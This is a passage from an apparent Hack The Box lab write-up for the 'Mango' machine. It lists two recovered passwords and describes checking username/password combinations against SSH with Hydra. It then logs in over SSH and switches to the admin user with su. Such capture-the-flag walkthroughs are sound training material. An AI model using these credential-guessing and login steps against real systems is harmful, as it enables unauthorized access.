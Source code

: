 ```text
password found: t9KcS3>!0B#2
...

2 password(s) found:
h3mXK8RhU~f{]f5H
t9KcS3>!0B#2
```

From here I'll add the usernames and passwords to files users.txt and passwords.txt, respectively. Once added I'll use Hydra to see if we have a valid combo to login to SSH with:

![hydra.png](../assets/mango_assets/hydra.png)

Cool, looks like we can SSH as user mango:

```text
┌──(ryan㉿kali)-[~/HTB/Mango]
└─$ ssh mango@10.10.10.162 
The authenticity of host '10.10.10.162 (10.10.10.162)' can't be established.
ED25519 key fingerprint is SHA256:tzYGTA/kNsB/kThvsmrv2uxaUS/2zS/grRQkrbN4+RE.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.162' (ED25519) to the list of known hosts.
mango@10.10.10.162's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-64-generic x86_64)
```

The user.txt flag is in the admin users home directory, and mango does not have permissions to read it. Lets try to switch user to the admin using the other password we discovered:

```text
mango@mango:/home/admin$ ls -la
total 24
drwxr-xr-x 2 admin admin 4096 Sep 30  2019 .
drwxr-xr-x 4 root  root  4096 Sep 27  2019 ..
lrwxrwxrwx 1 admin admin    9 Sep 27  2019 .bash_history -> /dev/null
-rw-r--r-- 1 admin admin  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 admin admin 3771 Apr  4  2018 .bashrc
-rw-r--r-- 1 admin admin  807 Apr  4  2018 .profile
-r-------- 1 admin admin   33 May  9 15:30 user.txt
mango@mango:/home/admin$ cat user.txt
cat: user.txt: Permission denied
mango@mango:/home/admin$ su admin
Password: 
$ whoami
admin
```
